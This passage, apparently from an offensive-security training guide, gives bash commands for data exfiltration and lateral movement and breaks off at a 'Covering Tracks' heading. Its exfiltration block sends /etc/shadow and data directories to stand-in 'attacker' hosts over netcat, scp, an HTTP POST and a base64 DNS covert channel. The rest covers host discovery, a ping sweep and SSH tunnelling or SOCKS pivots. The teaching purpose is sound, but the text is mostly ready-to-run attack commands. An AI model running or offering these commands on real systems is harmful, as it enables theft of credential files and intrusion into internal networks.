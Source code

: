 **Exfiltration Methods**:
```bash
# Netcat
tar czf - /important/data | nc attacker 5555

# SCP
scp -r /important/data attacker:/tmp/

# HTTP POST
curl -X POST --data-binary @/etc/shadow http://attacker/upload

# Base64 + DNS
cat /etc/shadow | base64 | while read line; do host $line.attacker.com; done
```

**Skills Developed**:
- Data discovery
- Compression and transfer
- Covert channels
- Network protocols

#### 3. Lateral Movement & Pivoting

**Techniques**:
```bash
# Find other hosts
ip addr show
ip route
cat /etc/hosts
arp -a

# Port scanning internal network
for i in {1..254}; do ping -c 1 192.168.1.$i & done

# SSH Port Forwarding
ssh -L 8080:internal_host:80 user@target

# SOCKS Proxy
ssh -D 1080 user@target
# Then configure browser to use localhost:1080

# SSH Tunneling
ssh -L 3306:database_server:3306 user@target
mysql -h 127.0.0.1 -P 3306
```

**Skills Developed**:
- Network topology understanding
- Port forwarding
- Proxy usage
- Multi-hop access

#### 4. Covering Tracks
